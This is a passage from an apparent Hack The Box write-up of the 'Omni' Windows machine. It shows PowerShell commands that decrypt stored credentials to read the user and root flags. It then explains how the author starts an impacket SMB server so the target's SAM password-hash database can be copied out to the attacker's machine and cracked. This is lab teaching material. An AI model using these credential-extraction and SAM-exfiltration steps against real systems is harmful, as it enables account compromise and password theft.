 When we get the reverse shell it should be fairly easy to get the user flag:

```powershell
PS C:\windows\system32> $credential = Import-Clixml -Path C:\Data\Users\App\user.txt;$credential.GetNetworkCredential().Password

$credential = Import-Clixml -Path C:\Data\Users\App\user.txt;$credential.GetNetworkCredential().Password
7cfd50f6bc34db3204898f1505ad9d70
```

For the next one, we just need to go through the same steps again. But instead of the `App` user, we should log in with the `Administrator` user:

```powershell
PS C:\windows\system32> $credential = Import-Clixml -Path C:\Data\Users\Administrator\root.txt;$credential.GetNetworkCredential().Password

$credential = Import-Clixml -Path C:\Data\Users\Administrator\root.txt;$credential.GetNetworkCredential().Password
5dbdce5569e2c4708617c0ce6e9bf11d
```

And that's it! What I didn't realise until much later is that this task was intentionally put there by the author to make sure that the password for the App user and Administrator user wouldn't get changed by another HTB user that is trying to solve the challenge. So now let's also have a look at the intended way to solve this challenge.

### The Intended Solution

The intended solution has us downloading the SAM to our local machine so that we can crack the user account hashes contained in it. The Windows SAM or Security Account Manager is a database file present in every Windows OS from Windows XP that stores all user passwords. These passwords are stored as a hash in either as an LM hash or as an NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

To get the files onto our local machine we'll need to create an SMB share that we can write to from Omni. Modern Windows now requires that SMB shares are mounted with authentication, so we'll run it with a username and password configured.

```sh
$ sudo impacket-smbserver share . -smb2support -username beep -password boop

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

We should now be able to mount this share from Omni:
